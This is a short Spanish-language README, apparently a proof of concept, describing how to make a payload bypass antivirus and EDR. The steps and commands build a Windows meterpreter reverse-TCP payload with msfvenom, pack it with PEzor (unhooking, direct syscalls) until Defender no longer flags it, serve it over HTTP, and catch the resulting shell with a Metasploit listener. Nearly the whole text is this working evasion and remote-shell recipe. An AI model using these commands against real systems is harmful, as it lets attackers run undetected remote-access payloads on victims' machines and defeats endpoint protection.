## PoC Bypass AV/EDR

1. **Crear payload con MSFVENOM:**

        - msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.xxx.xxx LPORT=3333 -e x86/shikata_ga_nai>

2. **Lo pasamos al windows con un servidor http.**

        - python3 -m http.server 8080
        - Nos conecatamos a nuestra ip y descargamos el .exe
        
3. **Lo pasamos por el DefenderCheckMaster** (https://github.com/matterpreter/DefenderCheck)

        - cd .\Desktop\DefenderCheck-master\DefenderCheck\DefenderCheck\bin\Debug\
        - .\DefenderCheck.exe C:\Users\OSCP\Downloads\PoC.exe
        -  Se detectará.

4. **Pasamos el .exe por PEzor** (https://github.com/phra/PEzor)

        - PEzor -sgn -unhook -syscalls PoC.exe
        - Lo volvemos a enviar al Windows.

5. **Lo volvemos a pasar por el DefenderCheckMaster**

        - .\DefenderCheck.exe C:\Users\OSCP\Downloads\PoC.exe.packed.exe
        - NO SE DETECTA

6. **Tendremos a la escucha un listener de mestasploit en nuestra Kali.**

        - msfconsole -q
        - use exploit/multi/handler
        - set lhost 192.168.xxx.xxx
        - set lport 3333
        - run

7. **Ejecutamos el .exe**

        - Conseguiremos una shell de meterpreter en nuestra kali.

